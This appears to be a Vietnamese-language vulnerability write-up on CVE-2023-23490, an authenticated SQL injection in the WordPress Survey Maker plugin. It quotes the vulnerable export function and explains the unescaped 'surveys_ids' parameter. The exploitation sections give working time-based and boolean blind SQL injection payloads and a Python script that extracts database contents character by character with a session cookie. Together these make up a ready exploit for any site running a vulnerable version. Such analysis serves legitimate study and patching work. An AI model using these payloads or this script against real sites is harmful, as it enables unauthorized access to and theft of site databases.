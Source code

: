 # CVE_2023_23490
- Lỗ hổng Authenticated SQL Injection tại plugin Survey Maker 

```js
Survey Maker: CVE-2023-23490 - Authenticated SQL Injection
Reference: https://wordpress.org/plugins/survey-maker
Affected Versions: < 3.1.2
CVSSv3 Vector: CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:H
CVSSv3 Score: 8.8
```
- Plugin không escape tham số 'surveys_ids' tại hành động 'ays_surveys_export_json' khi đưa vào câu truy vấn SQL.
- Lỗ hổng yêu cầu cần được xác thực nhưng không cần phải là quản trị viên, những ai có chức năng 'subscriber' đều thực hiện được.

### Setup
- Wordpress 6.1.1
- Plugin Survey Maker 3.0.9

### Phân tích.
- Tại hành động ays_surveys_export_json ta có thể thấy hầu hết các câu truy vấn SQL đều được nối chuỗi và được kiểm soát từ bên ngoài.
```js
public function ays_surveys_export_json() {
        global $wpdb;

        $surveys_ids = isset($_REQUEST['surveys_ids']) ? array_map( 'sanitize_text_field', $_REQUEST['surveys_ids'] ) : array();
        $surveys_table = $wpdb->prefix . SURVEY_MAKER_DB_PREFIX . 'surveys';
        $survey_category_table = $wpdb->prefix. SURVEY_MAKER_DB_PREFIX . "survey_categories";
        $questions_table = $wpdb->prefix . SURVEY_MAKER_DB_PREFIX. 'questions';
        $questions_category_table = $wpdb->prefix . SURVEY_MAKER_DB_PREFIX . 'question_categories';
        $answers_table = $wpdb->prefix . SURVEY_MAKER_DB_PREFIX . 'answers';
        $sections_table = $wpdb->prefix . SURVEY_MAKER_DB_PREFIX . 'sections';
        if(empty($surveys_ids)){
            $where = '';
        }else{
            $where = " WHERE id IN (". implode(',', $surveys_ids) .") ";
        }
        $sql_survey_categories = "SELECT * FROM ".$survey_category_table;
        $survey_categories = $wpdb->get_results($sql_survey_categories, 'ARRAY_A');
        $survey_all_categories = array();
        foreach ($survey_categories as $survey_categories_key) {
            $survey_all_categories[$survey_categories_key['id']] = $survey_categories_key['title'];
        }
        $sql_surveys = "SELECT * FROM ".$surveys_table.$where;
        $surveys = $wpdb->get_results($sql_surveys, 'ARRAY_A');
        $data = array();
        $data['ays_survey_key'] = 1;
        $data['surveys'] = array();
        foreach ($surveys as $survey_key => &$survey) {
            $questions_id = trim($survey['question_ids'], ',');
            $survey_cat_ids = explode(',' , $surveys[$survey_key]['category_ids']);
            foreach ($survey_cat_ids as $survey_cat_key) {
                $surveys[$survey_key]['survey_categories'][$survey_cat_key] = $survey_all_categories[$survey_cat_key];
            }
            unset($survey['id']);
            unset($survey['category_ids']);
            if(empty($questions_id)){
                $survey["questions"] = array();
            }else{
                $sql_sections = "SELECT id,title,ordering FROM ".$sections_table." WHERE id IN (". esc_sql( $survey['section_ids'] ) .")";
                $sections = $wpdb->get_results($sql_sections, 'ARRAY_A');
                $sql_question_cat = "SELECT * FROM ".$questions_category_table;
                $questions_categories = $wpdb->get_results($sql_question_cat, 'ARRAY_A');
                $categories = array();
                foreach ($questions_categories as $question_key) {
                    $categories[$question_key['id']] = $question_key['title'];
                }
                $sql_questions = "SELECT * FROM ".$questions_table." WHERE id IN (". esc_sql( $questions_id ) .")" ;
                $all_questions = $wpdb->get_results($sql_questions, 'ARRAY_A');
                $cat_ids = '';
                foreach ($all_questions as $key => &$question) {
                    $all_questions[$key]['answers'] = $this->get_question_answers($question['id']);
                    $cat_ids = explode(',' , $all_questions[$key]['category_ids']);
                    foreach ($cat_ids as $cat_key) {
                        $all_questions[$key]['question_categories'][$cat_key] = $categories[$cat_key];
                    }
                }
            }
            $survey['sections'] = $sections;
            $survey['questions'] = $all_questions;
        }        
            $data['surveys'] = $surveys;

        $response = array(
            'status' => true,
            'data'   => $data,
            'title'  => 'surveys-export',
        );
        echo json_encode($response);
        wp_die();
    }
```

- Đặt breakpoint tại 

![Screenshot 2023-01-21 145827](https://i.imgur.com/j0FVhJD.png)

- Biến global $wpdb được dùng để thực hiện các câu truy vấn trong wordpress nên dòng tiếp theo sẽ là thực thi câu truy vấn.
- Thực hiện với hành động 
```js
http://localhost/wordpress-6.1.1-vi/wordpress/wp-admin/admin-ajax.php?action=ays_surveys_export_json&surveys_ids[0]=1
```
![Screenshot 2023-01-21 150332](https://i.imgur.com/senysuy.png)
- Khi đó câu SQL được thiết lập sẽ là

```js
$sql_surveys = "SELECT * FROM wp_ayssurvey_surveys WHERE id IN (1)"
```
- Có thể thấy ta hoàn toàn kiểm soát được giá trị của \$surveys_ids vì không ép kiểu nguyên và \$sql_surveys sẽ được nối chuỗi với \$where thông qua
```js
$surveys_ids = isset($_REQUEST['surveys_ids']) ? array_map( 'sanitize_text_field', $_REQUEST['surveys_ids'] ) : array();
...
if(empty($surveys_ids)){
    $where = '';
}else{
    $where = " WHERE id IN (". implode(',', $surveys_ids) .") ";
}
```

### Khai thác
- Payload:
```js
http://localhost/wordpress-6.1.1-vi/wordpress/wp-admin/admin-ajax.php?action=ays_surveys_export_json&surveys_ids[0]=1)+AND+(SELECT+1+FROM+(SELECT(SLEEP(3)))a)--+-
```
- Khi đó câu truy vấn sẽ là:
![Screenshot 2023-01-21 150956](https://i.imgur.com/K76BEtX.png)

### Tham khảo
- Có thể khai thác qua sqlmap nhưng để nâng cao trình độ thì tấn công qua blind sql như sau.
- Kiểm tra độ dài và tên database (Ở đây dùng MySQL và tên DB là 'wordpress')
- Payload:
```js
- /admin-ajax.php?action=ays_surveys_export_json&surveys_ids[0]=1)+and+length(select+database())=9%23
- /admin-ajax.php?action=ays_surveys_export_json&surveys_ids[0]=1)+and+(substring((select+database()),1,1)=CHAR(119))%23
```
- Sau đó kiểm tra lần lượt từng cột và nội dung một nhưng mà dùng sqlmap cho nhanh.
- Kết quả 
![Screenshot 2023-01-21 151736](https://i.imgur.com/PfCfMjD.png)
##### Code tham khảo
- Đoạn code tham khảo check DB name hay column và rows.
```py
import sys, requests, urllib.parse, string

# query = sys.argv[1]
query = "database()"
lent = 10
url = 'http://localhost:80/wordpress-6.1.1-vi/wordpress/wp-admin/admin-ajax.php?action=ays_surveys_export_json&surveys_ids[0]=1'
headers = {
    'Cookie': 'wordpress_826614356389d062a546b55d74431192=luk6785%7C1674449032%7CR6aa2TdnC97Dnj9sWvxf7HaZ2SR4ahAlArx3kajk2WR%7Cc5deb082acb4d6af201d4674ff456217dff0f346ff65c7fe01483bfdd0a5c049; wordpress_test_cookie=WP%20Cookie%20check; wordpress_logged_in_826614356389d062a546b55d74431192=luk6785%7C1674449032%7CR6aa2TdnC97Dnj9sWvxf7HaZ2SR4ahAlArx3kajk2WR%7Ca1311197b950614b90160060ecf4996356793fa458592f778020435920deee90; wp-settings-time-1=1674276234'
}

def get(query=''):
    global len, url, headers
    result = ''
    for i in range(1,lent+1):
        for c in range(34,120):
            try:
                payload = ")+and+substring((select+%s),%d,1)=CHAR(%d)%%23"%(query, i, c)
                print(url+payload)
                resp = requests.get(url+payload, headers=headers)
                if len(resp.text) != 81:
                    print("Found: %s"%chr(c))
                    result += chr(c)
                    break
            except:
                print("An exception occurred")
    return result

print(get(query))
```
